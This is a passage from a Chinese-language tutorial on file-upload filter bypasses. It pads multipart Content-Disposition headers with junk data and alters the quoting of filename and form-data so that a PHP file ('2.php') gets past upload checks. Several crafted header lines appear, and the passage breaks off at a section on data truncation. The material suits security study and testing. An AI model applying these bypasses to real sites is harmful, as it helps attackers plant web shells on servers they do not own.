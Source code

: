 ![img](https://s2.loli.net/2023/03/13/lcTAb7VGmOr8qCg.jpg) 

## 5.3.**绕过方式**

### 5.3.1.**数据溢出**

#### 5.3.1.1.**form-data与name之间**

在form-data;与name="upload_file"; filename="2.php"之间添加大量的垃圾数据，可以边添加边测试直到上传上去，主要添加的垃圾数据需要在后面添加一个";"进行结尾。

例如：	

```php
form-data;sadasAsadasAsadasAsadasAsadasAsadasAsadasAsadasAsadasAsadasAsadasAsadasAsadasAsadasAsadasAsadasAsadasAsadasAsadasAsadasAsadasAsadasAsadasAsadasAsadasAsadasA; name="upload_file"; filename="2.php"
```

![img](https://s2.loli.net/2023/03/13/oHXjL8WkygD4hzp.jpg) 

#### 5.3.1.2.**name与filename之间**

当然这里不单单可以插入在form-data;与name="upload_file"; filename="2.php"之间，也可以在name="upload_file"; 与filename="2.php"之间。但是数据不能乱插入，比如你插在2.php中，那肯定不行，一般情况下，文件名称长度都可能存在限制，并且太长也上传不上去。

例如：

```php
Content-Disposition: form-data; name="upload_file"; sadasAsadasAsadasAsadasAsadasAsadasAsadasAsadasAsadasAsadasAsadasAsadasAsadasAsadasAsadasAsadasAsadasAsadasAsadasAsadasAsadasAsadasAsadasAsadasAsadasAsadasA; filename="2.php"
```



### 5.3.2.**符号变异**

#### 5.3.2.1.**filename符号变异**

符号变异也就是将单双引号变换使用，或者单双引号缺失一部分进行使用，或者不使用单双引号来进行绕过。目前测试好像是无法通过了。

Content-Disposition: form-data; name="upload_file"; filename="2.php

Content-Disposition: form-data; name="upload_file"; filename='2.php

Content-Disposition: form-data; name="upload_file"; filename=2.php

![img](https://s2.loli.net/2023/03/13/1jGqfpDPUXeIr2F.jpg) 

#### 5.3.2.2.**form-data符号变异**

Content-Disposition:"form-data"; name=upload_file; filename="2.php"

Content-Disposition:'form-data'; name="upload_file"; filename='2.php'

### 5.3.3.**数据截断**
